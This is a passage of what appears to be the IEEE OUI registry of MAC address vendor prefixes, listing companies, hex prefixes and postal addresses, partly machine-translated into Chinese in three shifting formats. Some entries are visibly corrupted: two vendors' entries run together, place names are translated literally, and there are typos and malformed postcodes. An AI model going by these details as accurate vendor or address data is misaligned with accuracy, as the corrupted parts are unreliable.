00-20-FF (十六进制)
0020FF (十六进制)

500 Huntmar Park Drive
Herndon, 弗吉尼亚州 22070

Zero One Technology Co., Ltd.
00-40-01 (十六进制)
004001 (十六进制)

4F, 111, Chung Shan N. Road
SEC 2, Taipei
台湾 中华民国

Tachibana Teclron Co., Ltd.
00-40-09 (十六进制)
004009 (十六进制)

Systematic Equipment Division
2-2-5 Higashiyama, Meguroku
Tokyo, 153
日本

General Microsystems, Inc.
00-40-0C (十六进制)
00400C (十六进制)

P.O. Box 3689
Rancho Cucamonga, 加利福尼亚州 91729

Lannet Data Communications, Ltd.
00-40-0D (十六进制)
00400D (十六进制)

Atidim Technology Park, Bldg. 1
Tel Aviv 61131
以色列

Sonic Systems
00-40-10 (十六进制)
004010 (十六进制)

333 W. El Camino Real #280
Sunnyvale, 加利福尼亚州 94087

Ntt Data Comm. Systems Corp.
00-40-13 (十六进制)
004013 (十六进制)

Development Headquarters
Toyoasu Center Bldg., 3-3-3
Toyoasu, Koto-Ku
Tokyo 135, 日本

Comsoft GMBH
00-40-14 (十六进制)
004014 (十六进制)

Wachhausstr. 5a
7500 Karlsruhe 41
德国

Ascom Infrays AG
00-40-15 (十六进制)
004015 (十六进制)

Dpt. Easo 3726
Glut z-Blotzheimerstr. 1
Ch-4503 Solothurn
瑞士

Colorograph Ltd
00-40-1F (十六进制)
00401F (十六进制)

Unit 2, Mars House
Calleva Park, Aldermoston
Nr. Reading, Berkshire
RG7 4QW, 英国

PinnacleCommunication
00-40-20 (十六进制)
004020 (十六进制)

Systems Limited
Unit 1, Kinmel Pk, Bodlewyddan
Rhyl, Clwyd, LL18 5TY
英国

Logic Corporation
00-40-23 (十六进制)
004023 (十六进制)

3-14-10 Meiji-Seimei Building
Mita Minato-Ku
Tokyo, 日本

Molecular Dynamics
00-40-25 (十六进制)
004025 (十六进制)

880 East Arques Avenue
Sunnyvale, 加利福尼亚州 94086-4536

Melco, Inc.
00-40-26 (十六进制)
004026 (十六进制)

Melco Hi-Tech Center,
Shibata Hondori 4-15
Minami-Ku, Nagoya 457
日本

SMC Massachusetts, Inc.
00-40-27 (十六进制)
004027 (十六进制)

25 Walkers Brook Drive
Reading, 马萨诸塞州 01867

Canoga-Perkins
00-40-2A (十六进制)
00402A (十六进制)

21012 Lassen Street
Chatsworth, 加利福尼亚州 91311-4241

XLNT Designs Inc.
00-40-2F (十六进制)
00402F (十六进制)

15050 Avenue Of Science
Suite 106
San Diego, 加利福尼亚州 92128

GK Computer
00-40-30 (十六进制)
004030 (十六进制)

Basler Strasse 103
D-7800 Freiburg
德国

Digital Communications Associates, Inc.
00-40-32 (十六进制)
004032 (十六进制)

2010 Fortone Drive, #101
San Jose, 加利福尼亚州 95131

Addtron Technology Co., Ltd.
00-40-33 (十六进制)
004033 (十六进制)

46560 Fremont Blvd. #303
Fremont, 加利福尼亚州 94538

Optec Daiichi Denko Co., Ltd.
00-40-39 (十六进制)
004039 (十六进制)

Fiber Optics & Telecom. Div.
3-1-1 Marunouchi Chiyodaku
Tokyo 100
日本

Forks, Inc.
00-40-3C (十六进制)
00403C (十六进制)

1-27-4 Iriya,
Iriya 1-27-4 Taito,
110 日本

Fujikura Ltd.
00-40-41 (十六进制)
004041 (十六进制)

1-5-1, Kiba, Koto-Ku
Tokyo 135
日本

Nokia Data Communications
00-40-43 (十六进制)
004043 (十六进制)

P.O. Box 223
90101 Oulu
芬兰

SMD Informatica S.A.
00-40-48 (十六进制)
004048 (十六进制)

Largo Movimento Das Forcas
Armadas, 4
Alfragide, 2700 Amadora
葡萄牙

Hypertec Pty Ltd.
00-40-4C (十六进制)
00404C (十六进制)

P.O. Box 1782
Macquarie Centre
NSW, 2113
澳大利亚

Telecommunications Techniques
00-40-4D (十六进制)
00404D (十六进制)

20400 Observation Drive
Ger mantown, 马里兰州 20876

Space & Naval Warfare Systems
00-40-4F (十六进制)
00404F (十六进制)

NUWC
Code 2222, Bldg 1171-3
Newport, 罗德岛州 02841-5047

Ironics, Incorporated
00-40-50 (十六进制)
004050 (十六进制)

798 Cascadilla Street
Ithaca, 纽约州 14850

Star Technologies, Inc.
00-40-52 (十六进制)
004052 (十六进制)

515 Shaw Road
Sterling, 弗吉尼亚州 22075

Thinking Machines Corporation
00-40-54 (十六进制)
004054 (十六进制)

245 First Street
Cambridge, 马萨诸塞州 02142-1264

Lockheed – Sanders
00-40-57 (十六进制)
004057 (十六进制)

Daniel Webster Highway South
P.O. Box 868
Nashua, 新罕布什尔州 03061-0868

Yoshida Kogyo K. K.
00-40-59 (十六进制)
004059 (十六进制)

Technical Research Dept.
200 Yoshida Kurobe City
Toyama Pref.
939 日本

Funasset Limited
00-40-5B (十六进制)
00405B (十六进制)

Orchards, 14 Townsend
Somerset TA19 OAU
Ilminster
英国

Star-Tek, Inc.
00-40-5D (十六进制)
00405D (十六进制)

Hitachi Cable, Ltd.
71 Lyman Street
Northboro, 马萨诸塞州 01532
Opto Electronic System Lab

00-40-66 (十六进制)
004066 (十六进制)
880 Isagowaz-Cho, Hitachi-Shi
Ibaraki-Ken,
319-14 日本

OmniByte Corporation
00-40-67 (十六进制)
004067 (十六进制)
245 West Roosevel Road
West Chicago, 伊利诺伊州 60185

Extended Systems
00-40-68 (十六进制)
004068 (十六进制)
6123 North Meeker Avenue
Boise, 爱达荷州 83704

Lemcom Systems, Inc.
00-40-69 (十六进制)
004069 (十六进制)
2104 West Peoria Avenue
Phoenix, 亚利桑那州 85029

Kentek Information Systems, Inc
00-40-6A (十六进制)
00406A (十六进制)
2945 Wilderness Place
Boulder, 科罗拉多州 80301

Corollary, Inc.
00-40-6E (十六进制)
00406E (十六进制)
2802 Kelvin
Irvine, 加利福尼亚州 92714

SYNC Research Inc.
00-40-6F (十六进制)
00406F (十六进制)
7 Studebaker
Irvine, 加利福尼亚州 92718

Cable And Wireless Communications, Inc.
00-40-74 (十六进制)
004074 (十六进制)
1919 Gallows Road
Vienna, 弗吉尼亚州 22182-3964

AMP Incorporated
00-40-76 (十六进制)
004076 (十六进制)
P.O. Box 3608
M/S:106-14
Harrisburg, 宾夕法尼亚州 17105-3608

Wearnes Automation Pte Ltd
00-40-78 (十六进制)
004078 (十六进制)
801 Lorong 7, Toa Payoh
新加坡 1231

Agema Infrared Systems Ab
00-40-7F (十六进制)
00407F (十六进制)
Box 3
182-11 Danderid
瑞典

Laboratory Equipment Corp.
00-40-82 (十六进制)
004082 (十六进制)
1-7-3 Minatomachi
Tuchira-City
Ibaragi-Ken,
300 日本

SAAB Instruments AB
00-40-85 (十六进制)
004085 (十六进制)
P.O. Box 1017
S-551 11 Jonkoping
瑞典


| | |
| :--- | :--- |
| Michels & Kleberhoff Computer<br>00-40-86 (十六进制)<br>004086 (基数 16) | Gathe 117<br>5600 Wuppertal 1<br>德国 |
| | |
| Ubixtrex Corporation<br>00-40-87 (十六进制)<br>004087 (基数 16) | 19th Floor, 155 Carlton Street<br>Winnipeg, Manitoba<br>加拿大 R3C 3H8 |
| Tps Teleprocessing Systems GMBH<br>00-40-8A (十六进制)<br>00408A (基数 16) | Schwadermuchlstrasse 4-8<br>W-8501 Cadolzburg<br>德国 |
| | |
| Axis Communications Ab<br>00-40-8C (十六进制)<br>00408C (基数 16) | Scheelevagen 16<br>S-223 70 Lund<br>瑞典 |
| | |
| CXR/DIGILOG<br>00-40-8E (十六进制)<br>00408E (基数 16) | 900 Business Center Drive<br>Suite 200<br>Horsham, PA 19044 |
| | |
| WM-Data Minfo AB<br>00-40-8F (十六进制)<br>00408F (基数 16) | Olof Asklunds Gata 14<br>Box 2065<br>421 02 Goteborg<br>瑞典 |
| | |
| Procomp Industria Electronica<br>00-40-91 (十六进制)<br>004091 (基数 16) | Av. Kenkiti Simomoto, 767<br>05347 – Sao Paulo/SP<br>巴西 |
| | |
| ASP Computer Products, Inc.<br>00-40-92 (十六进制)<br>004092 (基数 16) | 160 San Gabriel Drive<br>Sunnyvale, CA 94086 |
| | |
| Shographics, Inc.<br>00-40-94 (十六进制)<br>004094 (基数 16) | 1890 N. Shoreline Blvd.<br>Mountain View, CA 94043 |
| | |
| R.P.T. Intergrups Int'l Ltd.<br>00-40-95 (十六进制)<br>004095 (基数 16) | 9f, 50 Min Chuan Rd<br>Hsin Tien, Taipei<br>Taiwan, R.O.C. |
| | |
| Telesystems SLW., Inc.<br>00-40-96 (十六进制)<br>004096 (基数 16) | 85 Scarsdale Road-Ste. 201<br>Don Mills, Ontario<br>加拿大 M3b 2r2 |
| | |
| Network Express, Inc.<br>00-40-9A (十六进制)<br>00409A (基数 16) | 2200 Green Road - Ste ‘1’<br>Ann Arbor, MI 48170 |
| | |
| Transware<br>00-40-9C (十六进制)<br>00409C (基数 16) | 21, Rue Du 8 Mai 1945<br>941107 Arcueil<br>法国 |
| | |
| Digiboard, Inc.<br>00-40-9D (十六进制)<br>00409D (基数 16) | 6400 Flying Cloud Drive<br>Eden Prairie, MN 55344 |
| | |
| Concurrect Technologies Ltd.<br>00-40-9E (十六进制)<br>00409E (基数 16) | 654 The Crescent<br>Colchester Business Park<br>Colchester, Essex CO4 4YQ<br>英国 |
| | |
| Lancast/Casat Technology, Inc.<br>00-40-9F (十六进制)<br>00409F (基数 16) | 10 Northern Blvd, Unit 5<br>Amherst, NH 03031-2328 |
| | |
| Rose Electronics<br>00-40-A4 (十六进制)<br>0040A4 (基数 16) | P.O. Box 742571<br>Houstan, TX 77274-2571 |
| | |
| Cray Research Inc.<br>00-40-A6 (十六进制)<br>0040A6 (基数 16) | 655F Lone Oak Drive<br>Eagan, MN 55121 |
| | |
| Valmet Automation Inc.<br>00-40-AA (十六进制)<br>0040AA (基数 16) | P.O. Box 237<br>SF-33101 Tampere<br>芬兰 |
| | |
| SMA Regelsysteme GMBH<br>00-40-AD (十六进制)<br>0040AD (基数 16) | Hannoversche Str. 1-5<br>D 3501 Niestetal<br>德国 |
| | |
| Delta Controls, Inc.<br>00-40-AE (十六进制)<br>0040AE (基数 16) | 13520 78th Avenue<br>Surrey, B.C.<br>加拿大 V3W 8J6 |
| | |
| 3COM K.K.<br>00-40-B4 (十六进制)<br>0040B4 (基数 16) | Shibuya TK Bldg.<br>3-13-11 Shibuya<br>Shibuya-Ku,<br>Tokyo, 150 日本 |
| | |
| Video Technology Computers Ltd<br>00-40-B5 (十六进制)<br>0040B5 (基数 16) | 33/F., BLOCK #1,<br>Tai Ping Industrial Center<br>57 Ting Kok Road, Tai Po<br>N.T., 香港 |
| | |
| Computermcorporation<br>00-40-B6 (十六进制)<br>0040B6 (基数 16) | 100 Wood Street<br>Pittsburgh, PA 15222 |
| | |
| MACQ Electronique SA<br>00-40-B9 (十六进制)<br>0040B9 (基数 16) | Rue de L' Aeronef 2<br>B-1140 Brussels<br>比利时 |
| | |
| Starlight Networks, Inc.<br>00-40-BD (十六进制)<br>0040BD (基数 16) | 444 Castro Street, Ste 301<br>Mountain View, CA 94041 |
| | |
| Vista Controls Corporation<br>00-40-C0 (十六进制)<br>0040C0 (基数 16) | 27825 Fremont Court<br>Valencia, CA 91355 |
| | |
| Bizerba-Werke Wilhelm Kraut GMBH & CO. KG.<br>00-40-C1 (十六进制)<br>0040C1 (基数 16) | Wilhelm-Kraut-Str. 65<br>P.O. Box 100164<br>D-7460 Balingen, 德国 |
| | |
| Applied Computing Devices<br>00-40-C2 (十六进制)<br>0040C2 (基数 16) | Aleph Park<br>100 South Campus Drive<br>Terre Haute, IN 47802 |
| | |
| Fischer And Porter Co.<br>00-40-C3 (十六进制)<br>0040C3 (基数 16) | 125 E. County Line Road<br>Warmminster, PA 18974 |
| | |
| Fibernet Research, Inc.<br>00-40-C6 (十六进制)<br>0040C6 (基数 16) | 1 Tara Boulevard, -#405<br>Nashua, NH 03062 |
| | |
| Milan Technology Corporation<br>00-40-C8 (十六进制)<br>0040C8 (基数 16) | 894 Ross Drive—Ste #105<br>Sunnyvale, CA 94089 |
| | |
| Silcom Manufacturing Technology Inc.<br>00-40-CC (十六进制)<br>0040CC (基数 16) | 5620 Timberlea Boulevard<br>Mississauga, Ontario<br>加拿大 L4W 4M6 |
| | |
| Strawberry Tree, Inc.<br>00-40-CF (十六进制)<br>0040CF (基数 16) | 160 South Wolfe Road<br>Sunnyvale, CA 94086 |
| | |
| Pagine Corporation<br>00-40-D2 (十六进制)<br>0040D2 (基数 16) | 1961-A Concourse Drive<br>San Jose, CA 95131 |
| | |
| Gage Talker Corp.<br>00-40-D4 (十六进制)<br>0040D4 (基数 16) | 13680 Ne 16th Street<br>Bellevue, WA 98005 |
| | |
| Studio Gen Inc.<br>00-40-D7 (十六进制)<br>0040D7 (基数 16) | 3-12-8 Takanawa #202<br>Minatoku, Tokyo 108<br>日本 |
| | |
| Ocean Office Automation Ltd.<br>00-40-D8 (十六进制)<br>0040D8 (基数 16) | 4th/5th Floors, Kader Bldg.<br>22 Kai Cheung Road<br>Kowloon Bay, Kowloon<br>香港 |
| | |
| Tritec Electronic GMBH<br>00-40-DC (十六进制)<br>0040DC (基数 16) | Robert Koch Str. 35<br>D6500 Mainz 42<br>德国 |
| | |
| Digalog Systems, Inc.<br>00-40-DF (十六进制)<br>0040DF (基数 16) | 3180 South 166th Street<br>New Berlm, WI 53151 |
| | |
| Mamer International, Inc.<br>00-40-E1 (十六进制)<br>0040E1 (基数 16) | 1617 93rd Lane Ne<br>Blaine, MN 55449 |
| | |
| Mesa Ridge Technologies, Inc.<br>00-40-E2 (十六进制)<br>0040E2 (基数 16) | 6725 Mesa Ridge Road, Ste. 100<br>San Diego, CA 92121 |
| | |
| Quin Systems Ltd<br>00-40-E3 (十六进制)<br>0040E3 (基数 16) | Oaklands Business Centre<br>Oaklands Park, Wokingham<br>Berksrg 11 2FD<br>英国 |
| | |
| E-M Technology, Inc.<br>00-40-E4 (十六进制)<br>0040E4 (基数 16) | 9245 Southwest Nimbus Ave.<br>Beaverton, OR 97005 |
| | |
| Sybus Corporation<br>00-40-E5 (十六进制)<br>0040E5 (基数 16) | 2300 Tall Pine Drive, Ste. 100<br>Largo, FL 34641 |
| | |
| Arnos Instruments & Computer Systems (Group) Co., Ltd.<br>00-40-E7 (十六进制)<br>0040E7 (基数 16) | 4/F., Eureka Ind. Bldg., 1-17 Sai Lau Kok Road<br>Tsuen Wan, N.T.<br>香港 |
| | |
| Accord Systems, Inc.<br>00-40-E9 (十六进制)<br>0040E9 (基数 16) | 572 Valley Way<br>Milpitas, CA 95035 |
| | |
| Plain Tree Systems Inc<br>00-40-EA (十六进制)<br>0040EA (基数 16) | 首席执行官<br>59 Iber Road, Stittsville<br>Ontario K2S 1E7<br>加拿大 |
| | |
| Network Controls Int'nall Inc.<br>00-40-ED (十六进制)<br>0040ED (基数 16) | 9 Woodlawn Green<br>Charlotte, NC 28217 |
| | |
| Microsystems, Inc.<br>00-40-F0 (十六进制)<br>0040F0 (基数 16) | 69-52 Nagakude Kanihara, Nagakut. Ch.<br>Aich-Gun Aichi-Ken 480-11<br>日本 |
| | |
| Chuo Electronics Co., Ltd.<br>00-40-F1 (十六进制)<br>0040F1 (基数 16) | 1-9-9, Motohongo-Cho<br>Hachioji-Shi Tokyo 192<br>日本 |
| | |
| Cameo Communications, Inc.<br>00-40-F4 (十六进制)<br>0040F4 (基数 16) | 71 Spitbrook Road, Ste. 410<br>Nashua, NH 030603 |
| | |
| OEM Engines<br>00-40-F5 (十六进制)<br>0040F5 (基数 16) | 1190 Dell Avenue, Ste. D<br>Campbell, CA 95008 |
| | |
| Katron Computers Inc.<br>00-40-F6 (十六进制)<br>0040F6 (基数 16) | 4 Fl. No. 2, Alley 23<br>Lane 91 SEC. 1 Nei Hu Road<br>Taipei, 台湾 |
| | |
| Combinet<br>00-40-F9 (十六进制)<br>0040F9 (基数 16) | 333 W. El Camino Real, Ste. 310<br>Sunnyvale, CA 94087 |
| | |
| Microboards, Inc.<br>00-40-FA (十六进制)<br>0040FA (基数 16) | 31-8, Takasecho, Funabashi City<br>Chiba 273, 日本 |
| | |
| LXE<br>00-40-FD (十六进制)<br>0040FD (基数 16) | 303 Research Drive<br>Norcross, GA 30092 |
| | |
| Telebit Corporation<br>00-40-FF (十六进制)<br>0040FF (基数 16) | 1315 Chesapeake Terrace<br>Sunnyvale, CA 94089-1100 |
| | |
| 3COM Corporation<br>00-60-8C (十六进制)<br>00608C (基数 16) | 5400 Bayfront Plaza<br>Santa Clara, CA 95052-8145 |
| | |
| Multitech Systems, Inc.<br>00-80-00 (十六进制)<br>008000 (基数 16) | 2205 Woodale Drive<br>Mounds View, MN 55112 |
| | |
| Antlow Computers, Ltd.<br>00-80-04 (十六进制)<br>008004 (基数 16) | Crown House, Station Road<br>Thatcham<br>Berks. RG13 4JE.<br>英国 |
| | |
| Cactus Computer Inc.<br>00-80-05 (十六进制)<br>008005 (基数 16) | 1120 Metrocrest Drive<br>Suite 103<br>Carrolton, TX 75006 |
| | |
| CompUadd Corporation<br>00-80-06 (十六进制)<br>008006 (基数 16) | 工程部<br>12303 Technology Blvd.<br>Austin, TX 78727 |
| | |
| DLOG NC-SYSTEME<br>00-80-07 (十六进制)<br>008007 (基数 16) | Werner-Von-Siemens Strasse 13<br>D-8037, Olching<br>德国 |
| | |
| Vosswinkel F.U.<br>00-80-0D (十六进制)<br>00800D (基数 16) | AM Jostenhof 15<br>D-4130 Moers<br>德国 |
| | |
| Seiko Systems, Inc.<br>00-80-15 (十六进制)<br>008015 (基数 16) | 系统开发部<br>5-4 Haccobori 4-Chome<br>Chuuou-Ku Tokoyo 104, 日本 |
| | |
| Wandel And Goltermann<br>00-80-16 (十六进制)<br>008016 (基数 16) | 1030 Swabia Court<br>Research Triangle Park, NC 27709 |
| | |
| Kobe Steel, Ltd.<br>00-80-18 (十六进制)<br>008018 (基数 16) | Kobe Isuzu Recruit Bldg.<br>7th Floor 2-2, 4-Chome,<br>Kumoi-Dori, Chuo-Ku, Kobe 651<br>日本 |
| | |
| Dayna Communications, Inc.<br>00-80-19 (十六进制)<br>008019 (基数 16) | 50 South Main Street, #530<br>Salt Lake City, Utah 84144 |
| | |
| Bell Atlantic<br>00-80-1A (十六进制)<br>00801A (基数 16) | N92 W14612 Anthony Avenue<br>Menomonee Falls, WI 53051 |
| | |
| Newbridge Research Corp.<br>00-80-21 (十六进制)<br>008021 (基数 16) | 600 March Road<br>P.O. Box 13600<br>Kanata, Ontario K2k 2e6<br>加拿大 |
| | |
| Integrated Business Networks<br>00-80-23 (十六进制)<br>008023 (基数 16) | IBN The Systems Centre<br>14, Bridgegate Business Park,<br>Gatehouse Way, Aylesbury<br>Bucks HP19 3XN, 英国 |
| | |
| Kalpana, Inc.<br>00-80-24 (十六进制)<br>008024 (基数 16) | 1154 East Arques Avenue<br>Sunnyvale, CA 94086 |
| | |
| Network Products Corporation<br>00-80-26 (十六进制)<br>008026 (基数 16) | 1440 West Colorado Blvd.<br>Pasadena, CA 91105 |
| | |
| Test Systems & Simulations Inc.<br>00-80-2A (十六进制)<br>00802A (基数 16) | 32429 Industrial Drive<br>Madison Heights, MI 48071-1528 |
| | |
| The Sage Group PLC<br>00-80-2C (十六进制)<br>00802C (基数 16) | Sage House, Benton Park Road<br>Newcastle Upon Tyne NE7 7LZ<br>英国 |
| | |
| Xylogics Inc<br>00-80-2D (十六进制) | 53 Third Avenue<br>Burlington, MA 01803 |


**爱立信公司**
00-80-37 (十六进制)
008037 (基数 16)

HF/LME/C 部门
126 25 斯德哥尔摩
瑞典

**数据研究与应用**
00-80-38 (十六进制)
008038 (基数 16)

执行公园大道 9041 号
200 室
诺克斯维尔，田纳西州 37923-4609

**APT 通信公司**
00-80-3B (十六进制)
00803B (基数 16)

佩里博士路 9607 号
伊杰姆斯维尔，马里兰州 21754

**秀吉建股份有限公司**
00-80-3D (十六进制)
00803D (基数 16)

青年大楼，新宿 4-1-9
新宿区，东京
日本

**Synernetics（西纳公司）**
00-80-3E (十六进制)
00803E (基数 16)

兰基路 85 号
北比勒里卡，马萨诸塞州 01862

**Force Computers（力电脑公司）**
00-80-42 (十六进制)
008042 (基数 16)

梅施施米特教授街 1 号
W - 8014 诺伊比贝格
德国

**Networld, Inc.（网络世界公司）**
00-80-43 (十六进制)
008043 (基数 16)

神田 3，Amerex 大楼
神田锦市场 3-10
东京都千代田区 101
日本

**System Computer Corp.（系统计算机公司）**
00-80-44 (十六进制)
008044 (基数 16)

南希岭路 6465 号
圣地亚哥，加利福尼亚州 92121

**松下电器产业株式会社**
00-80-45 (十六进制)
008045 (基数 16)

计算机事业部
大阪府加太市 1006 号
大阪，571 日本

**多伦多大学**
00-80-46 (十六进制)
008046 (基数 16)

电气工程系
国王学院路 10 号
多伦多，安大略省 M5S 1A4
加拿大

**日产电气株式会社**
00-80-49 (十六进制)
008049 (基数 16)

京都市右京区梅津高濑町 47
京都市右京区，615
日本

**Contec Co., Ltd.（康泰克株式会社）**
00-80-4C (十六进制)
00804C (基数 16)

西淀川区日暮 3-9-31
大阪，555
日本

**Cyclone Microsystems, Inc.（旋风微系统公司）**
00-80-4D (十六进制)
00804D (基数 16)

科学园 25 号
纽黑文，康涅狄格州 06511

**Fibermux（光纤复用公司）**
00-80-51 (十六进制)
008051 (基数 16)

托潘加峡谷大道 9310 号
查茨沃思，加利福尼亚州 91311

**Adsoft, Ltd.（阿多夫特有限公司）**
00-80-57 (十六进制)
008057 (基数 16)

兰德施特拉斯 27A 号
CH-4313 莫夫林
瑞士

**Tulip Computers Intern\*1 B.V（郁金香计算机国际 B.V.）**
00-80-5A (十六进制)
00805A (基数 16)

邮政信箱 3333
5203 DH '斯赫托根博斯
荷兰

**Concor Systems, Inc.（协和系统公司）**
00-80-5B (十六进制)
00805B (基数 16)

撒马利亚路 2133 号
圣何塞，加利福尼亚州 95124

**Interface Co.（接口公司）**
00-80-62 (十六进制)
008062 (基数 16)

广岛县广岛市安佐南区五日市町 8-26
广岛 732
日本

**Richard Hirschmann GMBH & CO.（理查德·希尔施曼两合公司）**
00-80-63 (十六进制)
008063 (基数 16)

业务领域
光传输技术
奥伯图尔克海姆街 78 号
7300 埃斯林根，德国

**Square D Company（施耐德电气）**
00-80-67 (十六进制)
008067 (基数 16)

北理查德街 4041 号
邮政信箱 472
密尔沃基，威斯康星州 53201

**Computone Systems（Computone 系统）**
00-80-69 (十六进制)
008069 (基数 16)

北梅多公园路 1100 号
150 室
罗斯韦尔，佐治亚州 30076

**ERI (Empac Research Inc.)（Empac 研究公司）**
00-80-6A (十六进制)
00806A (基数 16)

西桥路 47560 号
弗里蒙特，加利福尼亚州 94538

**Schmid Telecommunication（施密德电信）**
00-80-6B (十六进制)
00806B (基数 16)

宾茨大街 35 号，
CH-8045
苏黎世，瑞士

**Cegelec Projects Ltd（杰乐克项目有限公司）**
00-80-6C (十六进制)
00806C (基数 16)

MDD 部门，
博顿路，拉格比
沃里克郡，CO21 1BU
英国

**Century Systems Corp.（世纪系统公司）**
00-80-6D (十六进制)
00806D (基数 16)

南町 2-8-12
国分寺市，东京
185 日本

**新日铁株式会社**
00-80-6E (十六进制)
00806E (基数 16)

新川二丁目 31-1
中央区
东京 104 日本

**Onelan Ltd.（奥莱恩有限公司）**
00-80-6F (十六进制)
00806F (基数 16)

邮政信箱 107
泰晤士河畔亨利
牛津郡 RG9 3NOQ
英国

**SAI Technology（SAI 科技）**
00-80-71 (十六进制)
008071 (基数 16)

校园点庭院 4224 号
圣地亚哥，加利福尼亚州 92121-1513

**Microplex Systems Ltd.（微普莱克斯系统有限公司）**
00-80-72 (十六进制)
008072 (基数 16)

东第一大道 265 号
温哥华，不列颠哥伦比亚省 V5T 1A7
加拿大

**Fisher Controls（费舍尔控制）**
00-80-74 (十六进制)
008074 (基数 16)

中心溪路 1712 号
奥斯汀，得克萨斯州 78754

**Microbus Designs Ltd.（微总线设计有限公司）**
00-80-79 (十六进制)
008079 (基数 16)

特雷德利山
劳德沃特，高威科姆
白金汉郡 HP10 9QL
英国

**Artel Communications Corp.（亚特通信公司）**
00-80-7B (十六进制)
00807B (基数 16)

凯恩工业路 22 号
哈德逊，马萨诸塞州 01749

**Southern Pacific Ltd.（南太平洋有限公司）**
00-80-7E (十六进制)
00807E (基数 16)

三和大楼，2-16-20
南汐干潟
横滨西区
日本，220

**PEP Modular Computers GMBH（PEP 模块化计算机两合公司）**
00-80-82 (十六进制)
008082 (基数 16)

苹果施特拉斯街 16 号
D - 8950 考夫博伊伦
德国

**Computer Generation Inc.（计算机世代表公司）**
00-80-86 (十六进制)
008086 (基数 16)

总统公园路 3855 号
亚特兰大，佐治亚州 30340

**日本 Victor 公司**
00-80-88 (十六进制)
008088 (基数 16)

横滨市户区神明町 58-7
神奈川 239
日本

**Tectetics (Pty) Ltd.（TECTETICS 私人有限公司）**
00-80-89 (十六进制)
008089 (基数 16)

邮政信箱/邮政袋 56412
派恩戈里，2123
南非

**Summit Microsystems Corp.（顶峰微系统公司）**
00-80-8A (十六进制)
00808A (基数 16)

莱克维 710 号，150 室
桑尼维尔，加利福尼亚州 940867

**Dacoll Limited（达科尔有限公司）**
00-80-8B (十六进制)
00808B (基数 16)

达科尔大楼，园丁路
巴思盖特
西洛锡安
苏格兰 EH48 1TP

**West Coast Technology B.V.（西海岸科技 B.V.）**
00-80-8D (十六进制)
00808D (基数 16)

邮政信箱 3317
2601 DH 代尔夫特
荷兰

**Radstone Technology（拉德石科技）**
00-80-8E (十六进制)
00808E (基数 16)

沃特兰，托斯捷
北安普顿 NN12 7JN
英国

**Microtek International, Inc.（微特国际公司）**
00-80-90 (十六进制)
008090 (基数 16)

西北第 211  Terrace 3300 号
希尔斯伯勒，俄勒冈州 97124-7136

**Japan Computer Industry, Inc.（日本电脑实业公司）**
00-80-92 (十六进制)
008092 (基数 16)

胜原大 1-6-20
东大阪 577
日本

**Xyron Corporation（塞隆公司）**
00-80-93 (十六进制)
008093 (基数 16)

百合庭院 7864 号
库比蒂诺，加利福尼亚州 95014

**SATT Control AB（SATT 控制股份有限公司）**
00-80-94 (十六进制)
008094 (基数 16)

发展中心
通讯部
S-205 22 马尔默
瑞典

**Human-Desgied Systems, Inc.（人机系统公司）**
00-80-96 (十六进制)
008096 (基数 16)

费赫利路 421 号
国王普鲁士，宾夕法尼亚州 19406

**TDK Corporation（TDK 株式会社）**
00-80-98 (十六进制)
008098 (基数 16)

研发部，技术总部
千叶县船桥市东小瓦 2-15-7
千叶县，272，日本

**Novus Networks Ltd（诺维斯网络有限公司）**
00-80-9A (十六进制)
00809A (基数 16)

约翰·斯科特之家
市场街
布莱克内尔，伯克 WRGl2 1JB
英国

**Jusystem Corporation（ Jusystem 公司）**
00-80-9B (十六进制)
00809B (基数 16)

大野浜东 3-46
德岛市 770
日本

**Datacraft Manufactur'g Pty Ltd（数据工艺制造私人有限公司）**
00-80-9D (十六进制)
00809D (基数 16)

邮政信箱 160
本特利，西澳大利亚州 6102
澳大利亚

**Alcatel Business Systems（阿尔卡特业务系统）**
00-80-9F (十六进制)
00809F (基数 16)

让·朱尔街 54 号
92707 科尔贝瑟克斯
法国

**Lantronix（朗创）**
00-80-A3 (十六进制)
0080A3 (基数 16)

美利圆 26072 号
113 室
拉古纳山，加利福尼亚州 92653

**Republic Technology, Inc.（共和国科技公司）**
00-80-A6 (十六进制)
0080A6 (基数 16)

邮政信箱 141006
奥斯汀，得克萨斯州 78714

**Measures Corp.（Measures 公司）**
00-80-A7 (十六进制)
0080A7 (基数 16)

结果之路 1 号
库比蒂诺，加利福尼亚州 95014-5991

**Imlogix, Division Of Genesys（基因系统分部 Imlogix）**
00-80-AC (十六进制)
0080AC (基数 16)

萨米特塔大道 1900 号，770 室
奥兰多，佛罗里达州 32810

**Cnet Technology, Inc.（Cnet 科技公司）**
00-80-AD (十六进制)
0080AD (基数 16)

赞克尔路 2199 号
圣何塞，加利福尼亚州 95131

**Hughes Network Systems（休斯网络系统）**
00-80-AE (十六进制)
0080AE (基数 16)

探索巷 11717 号
德国小镇，马里兰州 20874

**Allumer Co., Ltd.（全米尔株式会社）**
00-80-AF (十六进制)
0080AF (基数 16)

东京都目黑区中央町 2-8-8
东京 152
日本

**Softcom A/S（软科姆 A/S）**
00-80-B1 (十六进制)
0080B1 (基数 16)

学生宿舍街 21 号
DK 1455
哥本哈根 K.
丹麦

**Specialix (Asia) Pte, Ltd（Specialix 亚洲私人有限公司）**
00-80-BA (十六进制)
0080BA (基数 16)

冬季销售路 3 号
拜弗利特
萨里 KT147LF
英国

**IEEE 802 委员会**
00-80-C2 (十六进制)
0080C2 (基数 16)

费米国家加速器实验室
M/S 368
邮政信箱 500
巴塔维亚，伊利诺伊州 60510

**阿尔伯塔微电子中心**
00-80-C9 (十六进制)
0080C9 (基数 16)

87 大道 11315 号，318 室
埃德蒙顿，阿尔伯塔省 T6G 2C2
加拿大

**Broadcast Television Systems（广播电视系统）**
00-80-CE (十六进制)
0080CE (基数 16)

邮政信箱 30816
盐湖城，犹他州 84130-0816

**Fantum Engineering, Inc.（凡图姆工程公司）**
00-80-D7 (十六进制)
0080D7 (基数 16)

大 A 路 3706 号
罗雷特，得克萨斯州 75088

**Bruel & Kjaer（布拉恩和凯尔）**
00-80-DA (十六进制)
0080DA (基数 16)

纳尔姆主街 18 号
DK-2850 纳尔姆
丹麦

**GMX Inc/GIMIX（GMX 公司/GIMIX）**
00-80-DD (十六进制)
0080DD (基数 16)

阿诺德路 3223 号
北布鲁克，伊利诺伊州 60062-2406

**XTP Systems, Inc.（XTP 系统公司）**
00-80-E0 (十六进制)
0080E0 (基数 16)

州街 1900 号，D 室
圣巴巴拉，加利福尼亚州 93101

**Lynwood Scientific Dev. Ltd.（莱伍德科学开发有限公司）**
00-80-E7 (十六进制)
0080E7 (基数 16)

法恩汉姆贸易园
